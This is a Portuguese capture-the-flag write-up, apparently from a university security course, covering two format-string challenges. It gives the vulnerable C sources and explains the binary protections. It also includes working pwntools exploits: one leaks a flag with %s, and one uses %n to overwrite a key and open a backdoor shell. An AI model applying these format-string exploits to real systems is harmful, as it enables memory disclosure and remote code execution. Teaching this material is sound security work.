






## CTF 3 - Format String

- [ctf-fsi.fe.up:4004](http://ctf-fsi.fe.up.pt:4004)
- [ctf-fsi.fe.up:4005](http://ctf-fsi.fe.up.pt:4005)

### Challenge 1

```c
#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}
```

#### Checksec



- Partial RELRO (Relocation Read-Only)

Faz com que a GOT (Global Offset Table), fique antes da BSS (Block Starting
Symbol) em memória. Isto evita com que buffer overflows de variáveis guardadas
na BSS reescrevam entradas na GOT.

- Stack Canaries

Durante a inicialização, é guardado um valor na stack (canário). Quando uma
função retorna, se esse canário foi modificado, é detetado o stack smashing e o
programa é abortado.

- NX (No eXecute) enabled

Separa zonas de memória executável de zonas não executáveis. Evita com que o
input guardado seja executado como código, o que significa que, por exemplo,
shellcode não irá ser executado.

- No PIE (Position Independent Executable)

Os endereços são absolutos e permanecem os mesmo com cada execução do programa.
Como PIE é uma pré-condição para o ASLR, a aleatoriedade da posição em memória
dos endereços feita pelo ASLR não estará ativa

Dado estas proteções, podemos concluir que a GOT ainda pode ser reescrita. Os
canários dificultam ataques de buffer overflow mas não os impedem. Código
introduzido pelo utilizador não irá ser executado, e os endereços são
estáticos. Diversos ataques podem ser feitos e são facilitados pela ausência de
ASLR, incluíndo vulnerabilidades de format string.

#### Questões

- Qual é a linha do código onde a vulnerabilidade se encontra?

A vulnerabilidade encontra-se na seguinte linha:

```c
printf(buffer);
```

Ao fazer um printf sem especificar as strings de formatação, a variável a ser
imprimida, caso controlada pelo utilizador, pode ser usada tanto para ler como
escrever em endereços de memória. Neste caso o conteúdo do buffer é diretamente
controlado pelo utilizador devido à chamada a scanf.

- Qual é a funcionalidade que te permite obter a flag?

Sabendo o endereço da flag, e que o buffer está guardado na stack (frame da
função main), ao escrever um endereço como input para o buffer, seguido de
format specifiers `%s`, alguma destas irá tentar imprimir o que está no
endereço guardado na stack. Para verificar qual dos `%s` irá ler o início do
buffer, podemos preencher os primeiros caractéres do buffer com um padrão
facilmente reconhecido, seguido de vários `%.8x`, algum destes irá imprimir
esses primeiros caractéres em hexadecimal do padrão escolhido. Poderemos ver
após quantos bytes este é lido.  Após sabermos este offset, podemos escrever o
endereço da flag nos primeiros 4 bytes do buffer e usar os restantes para
imprimir a flag.

#### Exploit

Os primeiros 4 bytes do buffer são os primeiros a ser verificados pela format
string (0x61 em ASCII traduz-se para o caracter "a")



Obter o endereço da flag (estático) usando gdb:



Podemos então usar o seguinte exploit em python para obter a flag:

```py
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")

flag = 0x804c060.to_bytes(4, byteorder="little")

p.sendline(flag + b"%s")
p.interactive()
```

### Challenge 2

```c
#include <stdio.h>
#include <stdlib.h>

int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    }
        
    return 0;
}
```

#### Checksec



As medidas de segurança implementadas são as mesmas que no 1º Desafio, o que
foi escrito para a secção do checksec deste, aplica-se também ao 2º Desafio.

#### Questões

- Qual é a linha do código onde a vulnerabilidade se encontra? E o que é que a
  vulnerabilidade permite fazer?

A vulnerabilidade é semelhante à do 1º Desafio e está novamente no printf sem
string de formatação. Neste caso temos uma variável key, que queremos alterar para
0xbeef, de modo a obter uma shell.

- A flag é carregada para memória? Ou existe alguma funcionalidade que podemos
  utilizar para ter acesso à mesma.

A flag não é carregada para memória, no entanto, caso consigamos entrar no if
statement que invoca uma shell, temos acesso ao servidor e podemos aceder aos
seus ficheiros. A flag será um desses ficheiros.

- Para desbloqueares essa funcionalidade o que é que tens de fazer?

Para desbloquear a funcionalidade da backdoor, temos que reescrever no endereço
da variável key o valor 0xbeef. Para isto é necessário o endereço da variável
key. É também necessário utilizar a funcionalidade do format specifier `%n` que
escreve no endereço da stack apontado pela format string o número de caractéres
imprimidos até ao momento. Podemos assim escrever 0xbeef em key, caso sejam
impressos 48879 (0xbeef em decimal) caractéres antes de `%n`. O endereço da key
tem que estar na stack na posição correta para ser considerado o argumento de
`%n`.

#### Exploit

Obter o endereço de key:



Para imprimir 48879 caractéres, sendo que o buffer tem um limite de 32 bytes, é
necessária outra funcionalidade. Ao usarmos o format specifier `%.48879x`
conseguímos imprimir mais caratéres, temos então bytes suficientes para
escrever 0xbeef na variável key. Esta string de formatação imprime em
hexadecimal e adiciona padding com 0x00, estes 0x00 são indiferentes à esquerda
do valor em hexadecimal mas contam para o número de caractéres impressos usado
em `%n`.

Como o `%.48879x` irá imprimir em hexadecimal o conteúdo dos primeiros 4 bytes
de buffer (bytes 0 a 3), os seguintes (bytes 4 a 7) é que poderão vir a ser
escritos pelo format specifier `%n`. Usando então um endereço qualquer de 4
bytes (podendo mesmo ser o endereço da key novamente), seguido do endereço da
key, o format specifier `%x` irá imprimir o endereço dos 4 primeiros bytes, e o
`%n` irá escrever na posição de memória contida nos 4 bytes após esses. Como
antes de `%x` temos 8 caractéres a ser impressos (address + key ambos de 4
bytes). Ficam a faltar 48871 bytes para que o valor escrito em key seja 0xbeef.
Usámos então o seguinte exploit em python:

```py
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)
p.recvuntil(b"here...")

address = b"\x12\x34\x56\x78"
key = 0x804c034.to_bytes(4, byteorder="little")

p.sendline(address + key + b"%.48871x" + b"%n")
p.interactive()
```

Ativação da backdoor e ficheiro flag.txt:


